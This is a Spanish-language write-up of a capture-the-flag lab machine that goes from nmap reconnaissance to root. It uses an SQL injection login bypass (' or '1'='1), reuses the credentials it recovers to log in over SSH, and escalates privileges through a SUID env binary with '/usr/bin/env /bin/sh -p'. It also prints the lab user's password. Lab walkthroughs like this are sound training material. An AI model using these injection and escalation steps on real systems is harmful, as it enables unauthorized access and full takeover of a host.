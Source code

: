 
![](img/Pasted%20image%2020241208220639.png#center)

Mi IP -> 172.17.0.1
IP Objetivo -> 172.17.0.2


## Puertos

| Puertos | Servicio | Versión                                                      |
| ------- | -------- | ------------------------------------------------------------ |
| 22/tcp  | ssh      | OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0) |
| 80/tcp  | http     | Apache httpd 2.4.52 ((Ubuntu))                               |


## Credenciales


| USER  | PASSWORD         |
| ----- | ---------------- |
| dylan | KJSDFG789FGSDF78 |



<center><h1><font color="greenLima">Enumeración</font></h1></center>


Compruebo si está activa
```
ping -c 1 172.17.0.2
```
![](img/Pasted%20image%2020241028212842.png)


### Escaneo de puertos
- Primero hago un reconocimiento de puertos silencioso de los puertos abiertos
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2
```
![](img/Pasted%20image%2020241028213027.png)


-  Hago un escaneo mas exhaustivo para identificar versión y hacer un reconocimiento de los script mas habitules
```
nmap -p22,80 -sV -sC --min-rate 5000 -n -Pn 172.17.0.2
```
![](img/Pasted%20image%2020241028214244.png)








<h3><center> HTTP puerto 80</center></h3>
 
Voy al navegador y pongo la IP en la dirección URL
![](img/Pasted%20image%2020241028213317.png)


Compruebo si es vulnerable a un `BYPASS` de usuario y contraseña. En *User* y *Password*, introdujo:
```
' or '1'='1
```
![](img/Pasted%20image%2020241028213811.png)
>infoℹ
>		*Obtengo un usuario y una contraseña `Dylan:KJSDFG789FGSDF78`*




Como también estaba abierto el servicio SSH, intento con estas credenciales acceder a la máquina victima





<center><h1><font color="greenLima">Explotación</font></h1></center>

Teniendo unas posibles credenciales válidas y teniendo el servicio SSH abierto, pruebo las credenciales para acceder a la máquina objetivo.
```
ssh dylan@172.17.0.2
```
![](img/Pasted%20image%2020241028214540.png)
>ℹ
>		*Obtengo acceso a la máquina*



<center><h1><font color="greenLima">Post - Explotación</font></h1></center>

Identifico al usuario y veo que privilegios tiene
```
whoami
id
```
![](img/Pasted%20image%2020241028214951.png)


Como no tiene privilegios elevados, tengo que elevar privilegios. Primero pruebo con `sudo -l`
![](img/Pasted%20image%2020241028215155.png)


No hay nada, paso al siguiente que son los `SUID`
```
find / -perm -4000 2>/dev/null
```
![](img/Pasted%20image%2020241028215243.png)
>ℹ
>		*Veo que hay un binario SUID, llamado env*



Voy a la página `GTFOBins` y busco le binario `env`
![](img/Pasted%20image%2020241028215438.png)
>ℹ
>	*Como busqué el binario por SUID, utilizo la parte SUID de la web GTFOBins*



En la consola introduzco el comando:
```
/usr/bin/env /bin/sh -p     # especificando la ruta absoluta
```
![](img/Pasted%20image%2020241028215714.png)
>ℹ
>		*Obtenemos acceso al usuario root*




